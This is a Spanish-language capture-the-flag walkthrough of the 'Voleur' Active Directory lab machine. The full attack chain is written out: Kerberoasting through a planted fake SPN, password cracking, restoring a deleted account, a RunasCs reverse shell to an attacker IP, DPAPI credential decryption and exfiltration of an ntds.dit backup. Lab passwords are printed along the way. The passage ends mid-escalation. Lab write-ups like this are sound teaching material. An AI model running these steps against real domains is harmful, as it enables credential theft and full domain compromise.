Empezamos con las siguientes credenciales ``ryan.naylor:HollowOct31Nyt``
# Scan
Empezamos realizando un escaneo con ``rustscan -a 10.129.15.133 --ulimit 5000 -r 1-65535 -- -sVC -oN scan -Pn``
```js
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-03-04 17:47:17Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: voleur.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
2222/tcp  open  ssh           syn-ack ttl 127 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC+vH6cIy1hEFJoRs8wB3O/XIIg4X5gPQ8XIFAiqJYvSE7viX8cyr2UsxRAt0kG2mfbNIYZ+80o9bpXJ/M2Nhv1VRi4jMtc+5boOttHY1CEteMGF6EF6jNIIjVb9F5QiMiNNJea1wRDQ2buXhRoI/KmNMp+EPmBGB7PKZ+hYpZavF0EKKTC8HEHvyYDS4CcYfR0pNwIfaxT57rSCAdcFBcOUxKWOiRBK1Rv8QBwxGBhpfFngayFj8ewOOJHaqct4OQ3JUicetvox6kG8si9r0GRigonJXm0VMi/aFvZpJwF40g7+oG2EVu/sGSR6d6t3ln5PNCgGXw95pgYR4x9fLpn/OwK6tugAjeZMla3Mybmn3dXUc5BKqVNHQCMIS6rlIfHZiF114xVGuD9q89atGxL0uTlBOuBizTaF53Z//yBlKSfvXxW4ShH6F8iE1U8aNY92gUejGclVtFCFszYBC2FvGXivcKWsuSLMny++ZkcE4X7tUBQ+CuqYYK/5TfxmIs=
|   256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMkGDGeRmex5q16ficLqbT7FFvQJxdJZsJ01vdVjKBXfMIC/oAcLPRUwu5yBZeQoOvWF8yIVDN/FJPeqjT9cgxg=
|   256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILv295drVe3lopPEgZsjMzOVlk4qZZfFz1+EjXGebLCR
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: voleur.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
55719/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
55725/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
55744/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21356/tcp): CLEAN (Timeout)
|   Check 2 (port 53356/tcp): CLEAN (Timeout)
|   Check 3 (port 57310/udp): CLEAN (Timeout)
|   Check 4 (port 39958/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2026-03-04T17:48:07
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 7h59m56s
```
Añadimos ``voleur.htb`` y ``dc.voleur.htb`` a nuestro ``/etc/hosts``
# Exploitation
Al intentar mirar si las credenciales son validas nos da error por lo que vamos a intentarlo autenticándonos con kerberos y para ello necesitamos sincronizar nuestro reloj con el del equipo para que no nos dé error.
```bash
sudo ntpdate 10.129.15.133
nxc smb 10.129.15.133 -u 'ryan.naylor' -p 'HollowOct31Nyt'
nxc smb 10.129.15.133 -u 'ryan.naylor' -p 'HollowOct31Nyt' -k
```

Ahora vamos a pedir un ticket para el usuario ryan y configurar nuestro archivo de kerberos para poder autenticarnos contra el servidor usando el ticket.
```bash
impacket-getTGT -dc-ip 10.129.15.133 'voleur.htb/ryan.naylor:HollowOct31Nyt'
nxc smb 10.129.15.133 --generate-krb5-file krb5.conf
export KRB5_CONFIG=krb5.conf
```
Ahora nos conectamos al share IT y descargamos el archivo ``Access_Review.xlsx``
```bash
impacket-smbclient VOLEUR.HTB/ryan.naylor@dc.voleur.htb -k -no-pass
```
Ahora intentamos abrir el archivo pero tiene contraseña por lo que vamos a crackearla usando john
```bash
office2john Access_Review.xlsx > hash
ohn hash --wordlist=/usr/share/wordlists/rockyou.txt
```

En el xlsx encontramos:


```bash
Todd.Wolfe:NightT1meP1dg3on14
svc_ldap:M1XyC9pW7qT5Vn
svc_iis:N5pXyW1VqM7CZ8
--------------User-list--------------
Ryan.Naylor
Marie.Bryant
Lacey.Miller
Todd.Wolfe
Jeremy.Combs
Administrator
```
Ahora con nxc comprobamos si las credenciales son validas:
```bash
nxc smb 10.129.15.133 -u 'svc_ldap' -p 'M1XyC9pW7qT5Vn' -k
nxc winrm 10.129.15.133 -u 'svc_iis' -p 'N5pXyW1VqM7CZ8' -k
```

Como son validas aprovechamos para hacer un escaneo con bloodhound:
```bash
bloodhound-python -u 'svc_ldap' -p 'M1XyC9pW7qT5Vn' -d voleur.htb -ns 10.129.15.133 -c All --zip
```

Ahora miramos que podemos hacer a partir de svc_ldap:

## WriteSPN svc_winrm
Empezamos obteniendo el tgt de svc_ldap:
```bash
impacket-getTGT voleur.htb/svc_ldap:'M1XyC9pW7qT5Vn' -dc-ip 10.129.15.133
export KRB5CCNAME=svc_ldap.ccache
```
Ahora añadimos el spn falso a svc_winrm y con GetUserSPNs solicitamos su TGS.
```bash
bloodyAD -k --host dc.voleur.htb -d voleur.htb set object 'svc_winrm' servicePrincipalName -v 'voleur/meow'
impacket-GetUserSPNs voleur.htb/svc_ldap -k -no-pass -dc-ip 10.129.15.133 -dc-host dc.voleur.htb -request -outputfile hash.txt
```
El TGS viene cifrado con la contraseña de svc_winrm así que vamos a intentar descifrarlo:
```bash
hashcat hash /usr/share/wordlists/rockyou.txt
```
Ahora tenemos las siguientes credenciales así que vamos a conectarnos mediante winrm:
``winrm_svc:AFireInsidedeOzarctica980219afi``
Primero vamos a solicitar su TGT
```bash
impacket-getTGT voleur.htb/svc_winrm:'AFireInsidedeOzarctica980219afi' -dc-ip 10.129.15.133
export KRB5CCNAME=svc_winrm.ccache
```
Nos conectamos por winrm usando:
```bash
evil-winrm -i dc.voleur.htb -r voleur.htb
```
Encontramos la user flag en el desktop:

### Tomb - todd.wolfe
Si recordamos el excel nos dan un usuario que se llama todd.wolfe y nos dicen que fue eliminado.
Vamos a ver si la papelera de ad esta activada y podemos recuperarlo.
```bash
Get-ADOptionalFeature -Filter 'name -like "Recycle Bin Feature"'
```

Vemos que esta activada por lo que vamos a recuperar al usuario todd.wolfe para ello necesitamos un usuario que forme parte del grupo d e restore_users:

En este caso es svc_ldap y como tenemos su contraseña vamos a utilizarlo para ejecutar los siguientes comandos y restaurarlo:
```bash
$password = ConvertTo-SecureString "M1XyC9pW7qT5Vn" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("voleur\svc_ldap", $password)
Get-ADObject -Filter 'samAccountName -eq "todd.wolfe"' -IncludeDeletedObjects -Server dc.voleur.htb -Credential $cred | Restore-ADObject -Server dc.voleur.htb -Credential $cred
#Comprobar si el user esta habilitado
Get-ADUser -Identity "todd.wolfe" -Server dc.voleur.htb -Credential $cred -Properties Enabled, MemberOf
```


Ahora como sabemos que el usuario ``todd.wolfe:NightT1meP1dg3on14`` para establecer una shell usando runascs:
```bash
./RunasCs.exe todd.wolfe NightT1meP1dg3on14 powershell -r 10.10.16.174:7777
```

Volvemos a lanzar bloodhound mientras esta el usuario tood.wolfe esta habilitado.

### Jeremy.combs
Ahora vamos a ver los shares ya que había uno llamado *Second-Line Support*:

Al no ver nada interesante en las carpetas podemos meternos en las carpetas ocultas como appdata:

Aquí encontramos la SID de todd lo que quiere decir que podemos tener credenciales guardadas así que vamos a transferirlo a nuestra maquina pasándolo a base64:
```bash
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\it\Second-Line Support\Archived Users\todd.wolfe\appdata\roaming\microsoft\protect\S-1-5-21-3927696377-1337352550-2781715495-1110\08949382-134f-4c63-b93c-ce52efc0aa88"))
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\it\Second-Line Support\Archived Users\todd.wolfe\appdata\roaming\microsoft\credentials\772275FAD58525253490A9B0039791D3"))
```
Y ahora lo decodificamos en nuestra maquina:
```bash
echo "AgAAAAAAAAAAAAAAMAA4ADkANAA5ADMAOAAyAC0AMQAzADQAZgAtADQAYwA2ADMALQBiADkAMwBjAC0AYwBlADUAMgBlAGYAYwAwAGEAYQA4ADgAAAAAAAAAAAAAAAAAiAAAAAAAAABoAAAAAAAAAAAAAAAAAAAAdAEAAAAAAAACAAAASAWcret5vHz2ZFDJGrnZI1BGAAAJgAAAA2YAAANcj1B/jylUhNcSe+UibSS+B7/bdiHKg/fYSD6cibplaMd3Y4zsjKqsVTKcNtLlcdFUHq1DuFNs3RIWP+bmweMuDU8cufImoeLTlQpIYdMh+W9gPmEl8K4uE7aQE3Yw5XcATlxytrmIAgAAAB7vnBVPlWNLbxgEAtZNEf5QRgAACYAAAANmAABK1OOpu3KshUr3dLNdcY8yUp0/QCvW9RyADda8JEaf/e2Qbn8XnQuQPb/7LENveEXSO4R2DsxXLXCs4ban1JazinCCqkvrWW0CAAAAAAEAAFgAAACEizqYyco/TqsQ3rgf7i9DSOaEVnONX4KQQG5p9lFlW0/lt1Tnj0do7kUF1rtUFAHLJCLhNsUpKRlyquQSSM0FnaIPoACBXWAUQ8P1KLfVosXGHH5zx9BwP8S+SjguDL3ipMNTWgTbAxzMB6wei02C/GjW4TTqZz6d/ENfJi79Quwp48np4xmtDOMKfNBKdPGdHIBSeJBJ90SpBN/sFHoveguRpfGmcJVpE4P/2yZWHcHSlTXxx1bF2GR/N32eLVzlDW8U0jiqZXz+GAxZPJcXVZzcwJCnQ86b5WV9YBrXq3d5gyGPGWgx3cryZPMR+03CQtT41lxN4CfgfD59crbmN5sMZCp6KG5RyRs3J1k0BXwLy8Ri33WwYhOUCCi9pSj1y3vvwqmAV4v1UydH0PXPlH+39e2oB2487UTGGdlyaQgs0YW7H5gWzc92ZrcTK1TXBO6ln7meBvmkT1RuqEZHHTpfWoKJFHs="|base64 -d > 08949382-134f-4c63-b93c-ce52efc0aa88

echo "AQAAAIIBAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAAgpOUCE8TY0y5PM5S78CqiAAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQAaQBhAGwAIABEAGEAdABhAA0ACgAAAANmAADAAAAAEAAAAFHzKgn3YLCvJj2rEPIQnU0AAAAABIAAAKAAAAAQAAAAQ5Eg3TZk1WowkapUa9UM/8AAAABPVx6LdEsEI0F7djLz0Hln/QVDHquvAyiJU8l7uAu9Lyz7xRKASqN6wciIci6VUdYEoKCYs0WZrs0QDAcwBzCNLLBuJd8XmtwjUg3CJ8qPoP6iWvn2iuNWY4f0DyFyLVvJ99Y+oDnMOwRWZVbuALaPzH7dalRoH/Bfcp2mHYwHF49CPkhEcBkUdWc8EDapERM1oko6oGxKhX+vSiB5CMRhhWHIQI0Zso+/ynQrQe/Og3R1pZjBZQtugVQOqAcnf5cUAAAAIVzGEtY4B9mi4fsWOVfrBp0oItY="|base64 -d > 772275FAD58525253490A9B0039791D3
```
Ahora con la ayuda de dpapi vamos a sacar la masterkey:
```bash
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password 'NightT1meP1dg3on14'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 
```

Con la masterkey ya podemos descifrar el resto de contraseñas:
```bash
impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```

Ahora tenemos el usuario ``jeremy.combs
``jeremy.combs:qT3V9pLXyN7W4m``
### Svc-Backup


Ahora solicitamos un ticket para **jeremy.combs** y nos conectamos por winrm
```bash
export KRB5_CONFIG=krb5.conf  

impacket-getTGT 'voleur.htb/jeremy.combs:qT3V9pLXyN7W4m' -dc-ip 10.129.15.133
export KRB5CCNAME=jeremy.combs.ccache 

#Alternativa kinit Jeremy.Combs

evil-winrm -i dc.voleur.htb -r voleur.htb
```
Como vemos que estamos en el grupo third-line technicians vamos a ver si podemos ver la carpeta ``C:\it\Third-Line Support``:

La nota nos habla de que hay configuraciones a medias en relación con los backups.

Al decodificar la id_rsa vemos que es de svc_backup:

Así que nos conectamos por ssh ``ssh svc_backup@10.129.15.133 -i id_rsa -p 2222``

### Administrator
Ahora vamos a ``/mnt/c/it/Third-Line Support/Backups`` a ver si podemos acceder a los recursos compartidos de backup:

Vemos que tenemos acceso a una copia de`` ntds.dit`` y ``system`` con lo que podemos intentar descifrarlos:
Primero los pasamos a nuestro equipo:
```bash
tar -cvzf /tmp/backup.tar.gz "/mnt/c/it/Third-Line Support/Backups"
scp -P 2222 -i id_rsa svc_backup@10.129.15.133:/tmp/backup.tar.gz .
tar -xvf backup.tar.gz 
```
